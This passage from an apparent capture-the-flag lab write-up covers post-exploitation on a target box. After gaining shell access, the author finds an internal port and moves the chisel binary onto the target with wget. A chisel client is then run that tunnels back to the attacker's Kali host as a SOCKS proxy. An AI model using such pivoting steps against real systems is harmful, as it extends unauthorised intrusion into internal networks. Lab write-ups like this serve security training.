 We have successfully gained a shell access:  

![obraz](https://github.com/user-attachments/assets/cd72d9c4-0a48-41ba-9668-c24ec15f1829)



## Priv esc to john

I tried to access two of the home folders but as www-data we can't do that.  
There are some files in /opt that might be intresting but we can't access them either.  
But without deep enumeration I end up finding intresting port open:  
```
netstat -nvlp
```
![obraz](https://github.com/user-attachments/assets/bfc3cc9a-dc9e-425f-bda2-edd62ab631a4)

Port 8001 seems intresting.  We can ofc try to curl it first:  
```
curl http://127.0.0.1:8001
```
![obraz](https://github.com/user-attachments/assets/b0fac5e6-7bd7-4a60-9128-4243d111cd48)

Unfortunately it only shows a redirect page, we need to forward this port to see it.  
It can be achieved with a tool called "chisel".   
We will use reverse server on kali linux to listen for connections.  
And connect from the target machine using SOCKS5 proxy to forward all ports at once.  

Chisel binary can be downloaded here:  
```
https://github.com/jpillora/chisel/releases
```

Now on kali we need to run reverse server on port 2222 or any other port:  
```
chisel server -p 2222 -reverse
```

![obraz](https://github.com/user-attachments/assets/2b5dacef-090a-4a95-8405-882332147351)


Move chisel binary to the target machine with python server and wget:  
And give it execute permission with chmod +x.  

![obraz](https://github.com/user-attachments/assets/ad33066b-2474-4223-b3d3-39352810d130)

Now we can run a connection to our kali IP:  
```
./chisel client 10.10.14.10:2222 R:1080:socks
```
![obraz](https://github.com/user-attachments/assets/fbd82610-9338-424c-a3a7-751bbad40430)

Last thing we need to configure is FoxyProxy for proxychains.  
Proxychains is a tool that is by default on kali so you shouldn't worry by that.  

I'll add a new proxy in FoxyProxy settings and configure it like that:  
